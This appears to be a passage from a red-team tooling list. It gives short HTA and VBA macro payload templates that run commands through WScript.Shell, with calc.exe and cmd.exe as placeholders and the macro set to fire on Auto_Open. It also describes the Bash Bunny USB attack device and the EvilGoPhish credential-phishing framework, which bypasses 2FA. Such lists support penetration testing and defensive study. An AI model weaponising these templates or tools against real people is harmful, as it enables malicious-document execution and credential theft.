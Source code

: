### [🔙](#tool-list)HTA

**Creating payload:**

```html
<html>
<body>
<script>
	var c= 'cmd.exe'
	new ActiveXObject('WScript.Shell').Run(c);
</script>
</body>
</html>
```

**Execute:** Run file

### [🔙](#tool-list)VBA

**Creating payload:**

```python
Sub calc()
	Dim payload As String
	payload = "calc.exe"
	CreateObject("Wscript.Shell").Run payload,0
End Sub
```

**Execute:** Set function to Auto_Open() in macro enabled document

Initial Access
====================

### [🔙](#tool-list)[Bash Bunny](https://shop.hak5.org/products/bash-bunny)

The Bash Bunny is a physical USB attack tool and multi-function payload delivery system. It is designed to be plugged into a computer's USB port and can be programmed to perform a variety of functions, including manipulating and exfiltrating data, installing malware, and bypassing security measures.

[hackinglab: Bash Bunny – Guide](https://hackinglab.cz/en/blog/bash-bunny-guide/)

[Hak5 Documentation](https://docs.hak5.org/bash-bunny/)

[Nice Payload Repo](https://github.com/hak5/bashbunny-payloads)

[Product Page](https://hak5.org/products/bash-bunny)

![image](https://user-images.githubusercontent.com/100603074/209868292-cc02ce20-7d8e-4019-b953-7082fb0eb828.png)

### [🔙](#tool-list)[EvilGoPhish](https://github.com/fin3ss3g0d/evilgophish)

evilginx2 + gophish. (GoPhish) Gophish is a powerful, open-source phishing framework that makes it easy to test your organization's exposure to phishing. (evilginx2) Standalone man-in-the-middle attack framework used for phishing login credentials along with session cookies, allowing for the bypass of 2-factor authentication
